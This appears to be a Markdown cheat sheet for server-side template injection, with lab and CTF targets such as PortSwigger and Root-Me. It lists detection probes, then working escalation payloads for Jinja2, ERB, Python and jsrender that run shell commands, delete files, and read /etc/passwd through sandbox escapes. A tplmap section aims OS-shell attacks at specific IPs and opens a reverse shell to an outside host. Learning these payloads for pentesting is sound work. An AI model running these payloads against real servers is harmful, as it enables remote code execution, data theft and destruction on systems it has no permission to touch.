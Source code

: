 # Detection
```bash
{{7*7}}                # Jinja2 or Twig
{{7*'7'}}              # 7777777 in Jinja - 49 in Twig
${7*7}                 # Smarty or Mako
<%= 7*7 %>             # Embedded Ruby template (ERB)
${{7*7}}
#{7*7}
${{<%[%'"}}%\
{{1+abcxx}}${1+abcxx}<%1+abcxx%>[abcxx]
```

# Escalate
- Jinja2/Flask
  - Fuzz for `414` to find true `subclass` number. 
  ```html
  {{config.items()}}
  {{''.__class__.mro()[1].__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
  ```
- Ruby Command Injection
  ```bash
  <%= system("rm /home/carlos/morale.txt") %>      
  https://YOUR-LAB-ID.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
  ```
- Python Command Injection
  ```bash
  {% import os %}
  {{os.system('rm /home/carlos/morale.txt')
  blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')       # Escape the context by }}
  ```
- System Access via Python Code
  ```bash
  GET /display_name?name="{{__import__('os').system('ls')}}"
  Host: example.com
  ```
- Escaping the Sandbox by Python Built-in Functions.
  ```bash
  GET /display_name?name="{{[].__class__.__bases__[0].__subclasses__()}}"         # Lists the Python classes available
  Host: example.com
  ```
- jsrender/Expressjs
  ```javascritp
  {{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
  ```

# TplMap
```bash
python2 tplmap.py -u "http://77.238.121.150:54041"
python2 tplmap.py -u "http://77.238.121.150:54041" --os-shell
python2 tplmap.py -u http://challenge01.root-me.org/web-serveur/ch41/check -X POST -d nickname=a --os-shell
python2 tplmap.py -u http://77.238.121.150:54041 -X POST -d name=a --reverse-shell cvefix.ir 12345
```

# Resource
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- https://github.com/carlospolop/hacktricks/tree/master/pentesting-web/ssti-server-side-template-injection
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- https://portswigger.net/research/server-side-template-injection

